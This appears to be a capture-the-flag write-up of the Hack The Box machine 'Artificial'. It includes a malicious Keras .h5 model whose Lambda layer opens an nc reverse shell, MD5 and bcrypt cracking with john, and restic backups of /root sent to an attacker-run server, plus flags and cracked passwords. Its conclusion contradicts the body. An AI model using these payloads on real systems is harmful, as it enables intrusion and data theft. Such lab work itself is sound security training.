



Artificial was a really interesting one. At first glance, it looked like a simple web application, but the use of TensorFlow models immediately caught my attention. I hadn’t worked much with machine learning attack surfaces before, so digging into model deserialization vulnerabilities was both challenging and rewarding. Reproducing the environment locally with Docker helped me understand the behavior much better, and it felt great to turn that into a working RCE. Overall, this box was a solid reminder that modern technologies often introduce new and less obvious attack vectors.

<!--more-->

## About

**Artificial** Artificial is an easy Linux-based machine available on the Hack The Box platform, designed as a great starting point for those new to penetration testing in a controlled and legal environment. This write-up details my full process of compromising the machine, from the initial foothold to achieving full root access.

The goal of this post is twofold: first, to clearly explain each technical step I took — including enumeration, vulnerability exploitation, and privilege escalation — and second, to share the tools, techniques, and thought processes behind each action. Every stage is accompanied by strategic reasoning to illustrate not only how the steps were executed but also why certain approaches were chosen.

## Reconnaissance

### Nmap Scan

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/artificial.htb]
└─$ nmap --privileged -sC -sV -O -A -T4 -p- -oN artificial_scan artificial.htb
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-28 16:36 CEST
Nmap scan report for artificial.htb (10.129.251.55)
Host is up (0.018s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Artificial - AI Solutions
|_http-server-header: nginx/1.18.0 (Ubuntu)
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT      ADDRESS
1   17.07 ms 10.10.14.1
2   17.77 ms artificial.htb (10.129.251.55)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.63 seconds
```

## Web Enumeration

The HTTP service presents a webpage titled "Artificial - AI Solutions", served by nginx on Ubuntu. I immediately browsed to:
`http://artificial.htb/`

<div style="display: flex; justify-content: center;">
  
</div>

### Registration & Login

The landing page featured minimal public content, but I noticed a **"Get Started"** button in the top navigation bar — indicating a custom or semi-custom web application with authentication functionality.

I created an account using a basic email and password combo (e.g., `test@test.com / test1234`). The registration process succeeded, and I was redirected to a **dashboard** after logging in.

This confirmed that the application allows user interaction and may expose functionalities based on user roles or privileges.

While exploring the authenticated interface, I found that users had access to both a `requirements.txt` (`tensorflow-cpu==2.13.1`)and a `Dockerfile` for building their AI models locally. This strongly hinted that the uploaded `.h5` models would be executed in a matching environment server-side — possibly via insecure deserialization.

```dockerfile
FROM python:3.8-slim

WORKDIR /code

RUN apt-get update && \
    apt-get install -y curl && \
    curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
    rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash"]
```

## Environment Setup

> [!TIP]
> I recommend testing your `.h5` payload locally before uploading it to avoid wasting submission attempts.

The platform explicitly recommended using the provided `Dockerfile` to build a compatible environment for model development and testing — stating that failure to do so might prevent payloads from working correctly ("you might not get a callback otherwise").

Following this advice, I used the Dockerfile to build a local container image

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/artificial.htb]
└─$ docker build -t artificial-image .
Emulate Docker CLI using podman. Create /etc/containers/nodocker to quiet msg.
STEP 1/5: FROM python:3.8-slim
STEP 2/5: WORKDIR /code
--> Using cache fe632f2eb3dcf12f083521cdb08f50d9a3c5ad9b87a0cd0ada515da913ac836d
--> fe632f2eb3dc
STEP 3/5: RUN apt-get update &&     apt-get install -y curl &&     curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl &&     rm -rf /var/lib/apt/lists/*
--> Using cache f895d1c042c9d57b79fd06a816e34cb3d1070526a9457c88d92384e131802500
--> f895d1c042c9
STEP 4/5: RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl
--> Using cache fb337352ad730b3a7a5bc555d621c39ff50099d2a7a4f16413466c1e1d433e38
--> fb337352ad73
STEP 5/5: ENTRYPOINT ["/bin/bash"]
--> Using cache fb21df06154465b6b00771dd6eae06ee9baf718e15bd5c1387680863a05147d9
COMMIT artificial-image
--> fb21df061544
Successfully tagged localhost/artificial-image:latest
fb21df06154465b6b00771dd6eae06ee9baf718e15bd5c1387680863a05147d9
```

## Vulnerability Identification

> [!WARNING]
> TensorFlow deserialization flaws are frequently patched in later releases. Always check the target's TensorFlow version to confirm exploitability.

After building the local environment, I began investigating how `.h5` models might be interpreted server-side. Since TensorFlow is known to deserialize models during loading, I looked into past vulnerabilities related to unsafe model handling.

After some research, I discovered an excellent blog post describing a [TensorFlow RCE with Malicious Model – Splint's Cyberblog](https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model#getting-the-rce)

The technique involves abusing the internal structure of a Keras model file to inject arbitrary Python code that will be executed during deserialization. This matched perfectly with the server’s behavior and the Docker environment I previously built.

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 6666 >/tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

To run my malicious Python script that generates the `.h5` payload, I needed the container to have access to my local script files. I achieved this by mounting my working directory into the Docker container using the `-v` option. This way, any file created inside the container is also saved on my host machine.

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/artificial.htb]
└─$ docker run -it --rm -v ~/ctf/HackTheBox/artificial.htb:/code artificial-image     
Emulate Docker CLI using podman. Create /etc/containers/nodocker to quiet msg.
root@6f071a49f11d:/code#
```

Inside the container, I navigated to the /code directory (the mounted folder) and executed my script
The script generated a malicious .h5 file inside /code, because of the volume mount, the file was immediately available on my host system for upload.

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/artificial.htb]
└─$ file exploit.h5            
exploit.h5: Hierarchical Data Format (version 5) data
```

## Exploitation

> [!WARNING]
> If your listener (nc -lvnp) isn't active when the server loads the model, the exploit will fail silently.

With the malicious .h5 file ready, I returned to the target web application. I uploaded the file through the “Your Models” dashboard on the site. After uploading, I clicked on View Predictions, which triggered the server to load and process the model.

Due to the malicious payload embedded in the .h5 model (specifically crafted to exploit TensorFlow’s deserialization), the server executed arbitrary code. As a result, I received a reverse shell connection on my machine using nc.

This confirmed a Remote Code Execution vulnerability via the model upload feature.

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/artificial.htb]
└─$ nc -lnvp 6666                                                             
listening on [any] 6666 ...
connect to [10.10.14.40] from (UNKNOWN) [10.129.251.55] 43586
/bin/sh: 0: can't access tty; job control turned off
$ script -qc /bin/bash /dev/null #Spawn shells
app@artificial:~/app$ 
```

## Post-Exploitation

While exploring the `/home` directory, I noticed a suspicious file located at `/home/app/instance/users.db`. This file immediately caught my attention because `.db` files typically indicate a database, often used to store user information or application data.

Such files can be crucial during a penetration test, as they may contain usernames, password hashes, or other sensitive data. Identifying and analyzing these files can provide valuable insights for privilege escalation or further exploitation.

In this case, `users.db` is likely a SQLite database holding user credentials or configuration details related to the application, making it a prime target for further investigation.

```bash
app@artificial:~$ find /home -type f -mtime -10 2>/dev/null
find /home -type f -mtime -10 2>/dev/null
/home/app/app/instance/users.db
```

> [!NOTE]
> SQLite databases in web applications often store sensitive data without encryption, especially in development environments.

After discovering the `users.db` file, I used the `sqlite3` command-line tool to inspect its contents:

```sql
sqlite3 users.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> select * from user;
select * from user;
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|test|test@gmail.com|098f6bcd4621d373cade4e832627b4f6
```

After extracting the password hashes from the `users.db` database, I saved one of them into a file named `hash.txt`:

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/artificial.htb]
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-md5
```

{}

  `mattp005numbertwo`

{}

John successfully cracked the hash quickly, revealing the password.
This step is crucial as it allows gaining credentials that can be used for further access or privilege escalation within the target system.

Using the cracked password, I was able to establish an SSH connection to the machine

```bash
ssh gael@artificial.htb
```

When prompted, I entered the password and successfully logged in as the user `gael`. This provided me with a more stable shell and expanded my ability to explore the system for further privilege escalation opportunities.

{}

  ```bash
  ┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/artificial.htb]
  └─$ gael@artificial:~$ cat user.txt 
  c083ae3864be12d2966ad02072d16cc9
  ```

{}

## Privilege Escalation

After gaining a shell as the user `gael`, running `id` shows that `gael` belongs to the group `sysadm`

```bash
gael@artificial:~$ id
uid=1000(gael) gid=1000(gael) groups=1000(gael),1007(sysadm)
```

This group membership hints that gael might have access to files owned by the sysadm group. To discover these files, we can search the system for files belonging to this group

```bash
gael@artificial:~$ find / -group sysadm -ls 2>/dev/null
293066  51132 -rw-r-----   1 root sysadm 52357120 Mar 4 22:19 /var/backups/backrest_backup.tar.gz
```

This reveals a large backup archive located in /var/backups/, readable by the sysadm group. Such backup files can contain sensitive data like configuration files, databases, or credentials, making /var/backups/ and similar directories like /opt/ prime locations to investigate further during privilege escalation.

After identifying the backup file `/var/backups/backrest_backup.tar.gz` accessible by the `sysadm` group, I proceeded to extract its contents to investigate further:

```bash
gael@artificial:~$ ls -al /var/backups/
total 51228
drwxr-xr-x  2 root root       4096 Jun  9 09:03 .
drwxr-xr-x 13 root root       4096 Jun  2 07:38 ..
-rw-r--r--  1 root root      39386 Jun  9 09:02 apt.extended_states.0
-rw-r--r--  1 root root       4206 Jun  2 07:42 apt.extended_states.1.gz
-rw-r--r--  1 root root       4190 May 27 13:07 apt.extended_states.2.gz
-rw-r--r--  1 root root       4383 Oct 27  2024 apt.extended_states.3.gz
-rw-r--r--  1 root root       4379 Oct 19  2024 apt.extended_states.4.gz
-rw-r--r--  1 root root       4367 Oct 14  2024 apt.extended_states.5.gz
-rw-r--r--  1 root root       4356 Sep 22  2024 apt.extended_states.6.gz
-rw-r-----  1 root sysadm 52357120 Mar  4 22:19 backrest_backup.tar.gz

gael@artificial:~$ file /var/backups/backrest_backup.tar.gz 
/var/backups/backrest_backup.tar.gz: POSIX tar archive (GNU)
```

After downloading the `backrest_backup.tar.gz` archive from the target machine, I extracted it locally to inspect its contents. During this investigation, I found a particularly interesting file at the path `.config/backrest/config.json` containing configuration data, including authentication details:

```json
{
  "modno": 2,
  "version": 4,
  "instance": "Artificial",
  "auth": {
    "disabled": false,
    "users": [
      {
        "name": "backrest_root",
        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
      }
    ]
  }
}
```

This configuration revealed a user backrest_root with a bcrypt hashed password, which could be useful for privilege escalation or further exploitation.

Although the password hash appeared to be bcrypt-encoded, it was first base64 encoded. After decoding it once with base64, the resulting bcrypt hash was saved into `hash.txt`:

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/artificial.htb]
└─$ cat hash.txt | base64 -d
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```

Using john with the appropriate bcrypt format and the rockyou wordlist, the password was successfully cracked:

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/artificial.htb]
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

{{% fixit-encryptor "!@#$%^" "Cracked password" %}}

  `!@#$%^`

{}

Discovering and forwarding an internal service port

On the target machine, checking listening ports revealed a service running on localhost port 9898:

```bash
gael@artificial:~$ ss -tuln
Netid  State   Recv-Q  Send-Q   Local Address:Port   Peer Address:Port Process  
udp    UNCONN  0       0        127.0.0.53%lo:53          0.0.0.0:*             
udp    UNCONN  0       0              0.0.0.0:68          0.0.0.0:*             
tcp    LISTEN  0       2048         127.0.0.1:5000        0.0.0.0:*             
tcp    LISTEN  0       4096         127.0.0.1:9898        0.0.0.0:*             
tcp    LISTEN  0       511            0.0.0.0:80          0.0.0.0:*             
tcp    LISTEN  0       4096     127.0.0.53%lo:53          0.0.0.0:*             
tcp    LISTEN  0       128            0.0.0.0:22          0.0.0.0:*             
tcp    LISTEN  0       511               [::]:80             [::]:*             
tcp    LISTEN  0       128               [::]:22             [::]:* 
```

To access this internal service from the attacker machine, an SSH tunnel was established forwarding local port 9898 to the target's localhost 9898:

> [!CAUTION]
> Exposing internal services via SSH tunneling could be noisy in production environments. Use it carefully during red teaming.

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/artificial.htb]
└─$ ssh gael@artificial.htb -L 9898:127.0.0.1:9898
```

This allowed interaction with the internal service via localhost:9898 on the attacker machine.

<div style="display: flex; justify-content: center;">
  
</div>

To start using Backrest, you first need to create a repository where your backups will be stored. To do this, log in to the Backrest interface with your credentials, then click on Add Repository. You’ll need to fill in a few key details: a repository name to identify it (for example, mybucket), the repository URL, which is the local or remote path where the backups will be saved (for example, /opt for a local folder), and a password if needed, especially for secured backends. Once you have entered this information, simply submit the form to create the repository, which will then be ready to store your backups.

<div style="display: flex; justify-content: center;">
  
</div>

Once you've created a repository via the Backrest interface (or manually using Restic), you can leverage rest-server to remotely back up and restore sensitive data.
On your Kali box, start the rest-server to host the remote Restic repository:

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/artificial.htb]
└─$ ./rest-server --path /tmp/restic-data --listen :12345 --no-auth
Data directory: /tmp/restic-data
Authentication disabled
Private repositories disabled
start server on [::]:12345
Creating repository directories in /tmp/restic-data/bucket
```

Now that the server is live, we switch to the target system. Assuming Restic is installed (either manually or via Backrest), we can initialize a new repository pointing to the attacker’s server:

```bash
-r rest:http://<ATTACKER-IP>:12345/bucket init
```

Restic will prompt for a password, which can be something simple like `123456` if you're just testing. After initialization, the repository is ready to receive backups.

Once the repository is ready, we can send critical data to it. For example, backing up the entire /root directory is simple:

```bash
-r rest:http://<ATTACKER-IP>:12345/bucket backup /root
```

This command uploads all contents of /root to the remote repository on the attacker’s machine. This may include configuration files, history files, credentials, and more.

> [!TIP]
> Backing up `/root` may trigger audit logs in hardened systems. On CTF platforms like HTB, this is unlikely to matter.

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/artificial.htb]
└─$ restic -r /tmp/restic-data/bucket snapshots
enter password for repository: 
repository 1d084d0a opened (version 2, compression level auto)
created new cache in /home/pullsec/.cache/restic
ID        Time                 Host        Tags        Paths  Size
-----------------------------------------------------------------------
94283182  2025-06-28 19:36:25  artificial              /root  4.299 MiB
-----------------------------------------------------------------------
1 snapshots
```

To recover files from a snapshot, use the following command (replace `<SNAPSHOT-ID>` with the actual ID from the previous step):

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/artificial.htb]
└─$ restic -r /tmp/restic-data/myrepo restore <SNAPSHOT-ID> --target ./restore
```

This will create a directory structure inside ./restore, containing the full contents of the backed-up /root directory.

If you recovered an SSH private key, you can try to connect back to the machine directly

```bash
┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/artificial.htb]
└─$ ssh -i ./restore/root/.ssh/id_rsa root@Artificial.htb
```

{}

   ```bash
  ┌──(pullsec㉿pen-301101)-[~/ctf/HackTheBox/artificial.htb]
  └─$ root@artificial:~# cat root.txt
  52549124ced12de9d90ed9c0bb86f3f9
  ```

{}

## Conclusion

In this challenge, we exploited a vulnerability in TensorFlow model loading, which allowed remote code execution. This initial access provided us with a low-privileged shell on the system.

Further enumeration revealed a PostgreSQL database containing hashed credentials. After cracking the hash for the `gael` user, we gained SSH access. Searching through user files uncovered a backup containing a plaintext root password, reused from an earlier stage.

Using this password, we successfully escalated privileges to the `root` user.

This machine highlights several common security issues:

- Unsafe handling of third-party model imports
- Poor password management practices, including reuse and storage in plaintext.
- Inadequate access controls and monitoring.

Overall, the box demonstrates how small oversights can be chained together for full system compromise.
